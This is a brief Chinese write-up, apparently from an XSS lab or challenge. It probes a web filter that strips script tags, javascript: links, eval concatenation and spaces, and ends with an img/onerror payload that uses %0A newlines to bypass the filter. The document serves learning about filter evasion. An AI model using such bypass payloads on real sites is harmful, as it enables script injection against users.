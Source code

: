  测试过滤文字

```
onfocus <script> <a href=javascript:alert('xss')>
```

得到

```
onfocus < > 
```

发现`script`  `<a href>`直接被过滤了



再试试字符串拼接

```
">   <img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">   <"
```



直接被过滤光了

```
就剩这些了。
">      <"
```



大小写也被过滤了。

unicode编码javascript也不行

空格也被过滤了



总结

`/`   `空格` `script`  `<a href=>`等等都被过滤了。

 

这里采用不需要闭合的标签

```
<img src=1 onerror=alert(1)>
```





最后的payload

```
?keywprd=<img%0Asrc=1%0Aonerror=alert(1)>
```

